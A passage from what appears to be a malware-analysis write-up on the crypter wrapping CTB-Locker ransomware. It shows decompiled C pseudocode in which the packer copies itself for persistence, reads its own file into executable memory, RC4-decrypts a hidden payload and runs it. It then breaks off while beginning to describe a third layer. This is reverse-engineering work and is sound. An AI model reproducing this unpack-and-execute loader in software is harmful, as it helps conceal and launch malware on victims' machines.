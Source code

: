 ```c
    if (strstr(&own_filename, &startup_path))
    {
    	goto LABEL_6;
	}
	SetFileAttributesW(&own_filename, FILE_ATTRIBUTE_NORMAL);
	CopyFileW(&app_data_path, &own_filename, 0);
  }
LABEL_6:
  
  fhandle = CreateFileW(&own_filename, 0x80000000, 1, 0, 3, 0, 0);
  fsize = GetFileSize(fhandle, 0);
  buffer = VirtualAlloc(0, 10 * fsize, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  ReadFile(fhandle, buffer, fsize);
  CloseHandle(fhandle);

  memset(ciphertext, 0, ...);
  seek_index = 0;

  while (1)
  {
  	v27 = *(_BYTE *)(seek_index + buffer);
	if ( *(_BYTE *)(seek_index + buffer + 2) == v27 - 4 && *(_BYTE *)(seek_index + buffer + 4) == v27 - 1 && *(_BYTE *)(seek_index + buffer + 6) == v27 + 2 && *(_BYTE *)(seek_index + buffer + 8) == v27 + 3 )
  		break;

  	if (seek_index == fsize - 1)
  		return 0;

  	if (seek_index >= fsize)
  		goto LABEL_26;
  }

  memcpy(ciphertext, *(BYTE*)(buffer + seek_index + 20), 0x4E34);
  memcpy(key, *(BYTE*)(buffer + seek_index), 20);
LABEL_26:

  do_rc4(ciphertext, key, 0x4E20, 0x14);
  decoded_buffer = VirtualAlloc(0, 0x4E20, 0x3000, 64);
  memcpy(decoded_buffer, ciphertext, 0x4E20);
  decoded_buffer();
  return 0;
```

### Third layer

The third and final layer of the crypter consists of a rather complex multi-purpose function which is called in recursive fashion where the calling parameters specify what functionality to execute, effectively making it a finite state machine. I didn't spend too much time reversing the entire thing as i primarily wanted to get to the actual CTB-locker executable (and discovering this had already been done upon trying to identify it using strings uncovered in the reversing process) but a short summary of the third layer's functionality is as follows:
